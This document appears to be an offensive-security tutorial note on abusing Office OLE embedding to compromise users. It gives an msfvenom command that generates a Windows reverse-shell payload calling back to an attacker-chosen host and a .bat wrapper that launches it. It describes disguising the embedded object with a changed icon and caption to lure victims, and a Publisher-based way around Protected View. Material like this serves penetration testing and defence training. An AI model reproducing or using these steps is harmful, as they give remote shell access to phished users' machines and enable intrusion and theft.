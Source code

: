 # Object Linking and Embedding

Microsoft have a feature called OLE that allow users to embed files in a Office document. In this sense, we can craft a malicious bat file and embed it in a Word document.

## Generating Shellcode

```bash
#-f: Output file is HTA to Powershell.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f hta-psh -o /var/www/html/$FILENAME.hta
```

Once the shellcode has been created, we need to craft a malicious .bat file (which we will insert in a Word document). The structure of the .bat file should be:

```shell
START $RESULT_OF_MSFVENOM
```

Once the .bat file is ready, the final step is to embed it in a Word document. In order to do this, we need to navigete to **Insert > Object > Create from file**. Select the file and change the icon and caption in order to lure end users to open the file.

**Note:** After clicking the embedded object, a security warning pops out. User must accept this.

## Protected View Bypass

Microsoft Office documents that have been transmitted over the internet (via mail, downloads..) adds a second layer of security called "Protected View" which is activated once the document opens. We can bypass this by inserting an OLE element (.bat) inside a Microsoft Publisher (.pub) file which doesn't activate this security layer.

**Note:** Microsoft Publisher should be installed in the victim machine.
